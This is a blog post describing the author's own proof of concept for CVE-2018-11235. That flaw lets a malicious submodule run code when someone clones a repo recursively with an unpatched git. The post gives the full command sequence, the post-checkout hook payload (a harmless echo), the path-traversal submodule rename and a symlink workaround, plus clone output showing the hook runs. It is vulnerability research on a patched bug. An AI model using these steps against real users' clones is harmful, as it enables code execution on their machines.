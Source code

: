 ```yaml
---
layout: post
title: CVE-2018-11235 - Quick & Dirty PoC
---
```


Earlier this week, I stumbled upon a [tweet][1] that caught my interest:

>Patches for git have been released, fixing cve-2018-11235, a RCE vulnerability I found! I'll publish a write-up next week describing the vuln and how this gave me RCE on GitHub Pages. https://marc.info/?l=git&m=152761328506724&w=2
[@_staaldraad][2]

RCE on Git? That sounded juicy!

After researching a little, I quickly found a [couple][3] of [posts][4] that summarize very well what the issue is, and later a [reddit thread][5] with some interesting discussions. The mentioned resources do a far better job at explaining this vulnerability than I would ever dream of, so I recommend you read those before continuing.

What I *did* thought was that, since there are (or at least were at the time of writing this) no working PoCs that I know of, it could be interesting to develop my own, just to confirm I understood the process correctly.

## Trying the easy way

Luckily, the [commit][6] that fixed the vulnerability in the official repository included a very self-explanatory test case, which I proceed to furiously *copy and paste* into a repo of my own to see if it worked. The commands were, more or less:

~~~bash

# First, create a test repository in /tmp
cd /tmp
git init test

# Then proceed to follow the test case steps
# An 'innocent' repository is needed to link our submodules to
git init innocent
git -C innocent commit --allow-empty -m foo

# Now, since I wanted this to be a remote PoC, I introduced a change here and pushed the repo to a remote Git server
cd innocent
git remote add origin <innocent-private-repo-url>
git push -u origin master

# Once that is done, it's time to return to our test repo and start creating our submodules, which are the key to RCE
cd ../test

# This submodule will serve our payload
# The command will create an 'evil' folder in the test repo which has a .git file that contains an url to the actual submodule's .git configuration folder, that is built like the following:
# ../.git/modules/${submodule_name}
# Keep this in mind because it will be important
git submodule add "<innocent-private-repo-url>" evil

# Now, we copy the git config folder of the submodule inside the test repo
mkdir modules
cp -r .git/modules/evil modules

# And then we can create our payload, which will be a simple echo to confirm we got RCE
# This hook will execute after a checkout, but only if a submodule .git config file points to moudles/evil
cat <<EOF > modules/evil/hooks/post-checkout
echo >&2 "YOU'VE BEEN PWND"
EOF
# ^ Yes, I changed that, the test case uses another message

# Now, in this step lies one of the fundamental pieces of the vuln: Path Traversal in submodule names
# Remember how the .git config file of the submodule pointed to the actual config folder? What if we put some Path Traversal characters in the submodule name?
git config -f .gitmodules submodule.evil.update checkout
git config -f .gitmodules --rename-section submodule.evil submodule.../../modules/evil

# So, via Path Traversal, we effectively pointed the .git folder of the submodule to a path in the parent folder, outside of its own .git folder. The one that happens to contain our payload :-)
# With this, the contents of the submodule's configuration can get pushed to the remote
# Ofc, we can do this because our Git version isn't patched yet

# Now it's time to commit and push
git add modules
git commit -am evil
git remote add origin <test-private-repo-url>
git push -u origin master

# The test case mentions that another submodule that is checked out before our evil submodule is needed to ensure a .git/modules directory is created beforehand
# So let's do that, why not
git submodule add "<innocent-private-repo-url>" another-module
git add another-module
git commit -am another
git push
~~~

Okay, that was easy! Just copy-pasting and calling it a day, right? Let's test our leet exploit. Just by cloning the repo with the `--recursive` or `--recurse-submodules` flags, the payload should execute...

~~~
$ git clone --recurse-submodules <test-private-repo-url>
Cloning into 'test'...
remote: Counting objects: 88, done.
remote: Compressing objects: 100% (64/64), done.
remote: Total 88 (delta 25), reused 0 (delta 0)
Receiving objects: 100% (88/88), 12.52 KiB | 0 bytes/s, done.
Resolving deltas: 100% (25/25), done.
Checking connectivity... done.
Submodule 'another-module' (<innocent-private-repo-url>) registered for path 'another-module'
Submodule '../../modules/evil' (<innocent-private-repo-url>) registered for path 'evil'
Cloning into 'another-module'...
remote: Counting objects: 2, done.
remote: Total 2 (delta 0), reused 0 (delta 0)
Receiving objects: 100% (2/2), done.
Checking connectivity... done.
Submodule path 'another-module': checked out '2b1692beafc6a96b94591556d047e6d4dc63dafe'
fatal: Could not chdir to '../../../../../../evil': No such file or directory
Unable to fetch in submodule path 'evil'
~~~

What. Something went wrong here.

## Oh, you tricky Path Traversal

Ok, so what happened? I double-checked the `.git` file that got generated inside the `evil` submodule folder, but it looked okay:

~~~
gitdir: ../.git/modules/../../modules/evil
~~~

It pointed to the correct location, the copied `modules` folder that is inside the parent repo. So, what's the configuration inside it?

~~~
$ cat modules/evil/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
        worktree = ../../../../../../evil
[remote "origin"]
        url = <innocent-private-repo-url>
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
        remote = origin
        merge = refs/heads/master
~~~

Wow, look at that `worktree` value. That's definitely not what we pushed to the remote. What's happening here?

Well, it turns out that Git seems to modify the `worktree` value to make it work with the submodule folder in case you added extra directories in the path or something. So, what I guess it's doing is:

+ For every directory that is in `evil/.git`'s '`gitdir` (after the `..`), Git knows it will need to travel one directory back to get to the submodule folder again
+ So, once it reaches the submodule configuration folder, it alters its `worktree` value to make it point to the submodule folder. That means adding one `../` for every directory it traveled before.
+ But, since we added some Path Traversal to that path, it's traveling back too many directories, going outside the repo folder and giving an error before checking out, ruining the exploit.

I guess I didn't explain myself very clearly there, but what indeed *is* clear is that we can't execute our payload like this. We need to circumvent this problem of "going too many directories back". I got pretty stuck at this point, until I re-read the [Microsoft post][4], which gives a subtle hint when talking about the vulnerability remediation:

>The solution to this problem is quite simple and effective: submodule’s folder names are now examined more closely by Git clients. They can no longer contain .. as a path segment, and they **cannot be symbolic links**, so they must be within the .git repository folder, and not in the actual repository’s working directory.

Huuummmm. Could we use a symbolic link to make Git think it's in a directory when it's actually *deeper* in our `module` folder? After making some basic calculations (which I failed horribly several times until I got it right, and that's basic counting, so you can see here my brilliant brain at its best), it seemed that with 4 extra directories, the modified `worktree` would correctly point to the `evil` submodule folder.

What do we have to lose?

~~~bash
cd modules/
mkdir -p 1/2/3/4
mv evil 1/2/3/4/
ln -s 1/2/3/4/evil evil
git add modules
git commit -m "symbolic link"
git push
~~~

Now, the `evil` submodule's `.git` file points to `modules/evil`, but `modules/evil` is a symlink to `modules/1/2/3/4/evil`, from where `../../../../../../evil` is the correct path to the `evil` submodule folder. I know this is, like, *giving you a headache*, but follow me a little longer. We are, after all, one `git clone` away of knowing if our guess is right or wrong:

~~~
$ git clone --recurse-submodules <test-private-repo-url>

/test.git
Cloning into 'test'...
remote: Counting objects: 95, done.
remote: Compressing objects: 100% (67/67), done.
remote: Total 95 (delta 26), reused 0 (delta 0)
Receiving objects: 100% (95/95), 12.90 KiB | 0 bytes/s, done.
Resolving deltas: 100% (26/26), done.
Checking connectivity... done.
Submodule 'another-module' (<innocent-private-repo-url>) registered for path 'another-module'
Submodule '../../modules/evil' (<innocent-private-repo-url>) registered for path 'evil'
Cloning into 'another-module'...
remote: Counting objects: 2, done.
remote: Total 2 (delta 0), reused 0 (delta 0)
Receiving objects: 100% (2/2), done.
Checking connectivity... done.
Submodule path 'another-module': checked out '2b1692beafc6a96b94591556d047e6d4dc63dafe'
YOU'VE BEEN PWND
Submodule path 'evil': checked out '2b1692beafc6a96b94591556d047e6d4dc63dafe'
~~~

Yay!

## Conclusion

This is a quick and dirty PoC I did just for the challenge. **By no means I'm saying I deserve *any* credit for discovering or contributing to this vulnerability**. I just wanted to try and see if I could develop a working, **remote** PoC before the official walkthrough and details were published. Congratulations and big thanks to [@_staaldraad][2] for the discovery, I'm dying to read more about it and how it worked on GitHub Pages!

Oh, and speaking of GitHub, I'm unable to push the PoC to a repo in there because they are blocking submodules with Path Traversal names now, which is good, but that means this walkthrough will need to be enough for you if you want to replicate my steps.

I hope this wasn't too badly explained, I wanted it to be short and straightforward but I guess I diverged a little.

Thanks for reading!

[1]: https://twitter.com/_staaldraad/status/1001542421161930752
[2]: https://twitter.com/_staaldraad
[3]: https://www.edwardthomson.com/blog/upgrading_git_for_cve2018_11235.html
[4]: https://blogs.msdn.microsoft.com/devops/2018/05/29/announcing-the-may-2018-git-security-vulnerability/
[5]: https://www.reddit.com/r/netsec/comments/8n73b4/cve201811235_security_vulnerability_in_git/
[6]: https://github.com/git/git/commit/0383bbb9015898cbc79abd7b64316484d7713b44
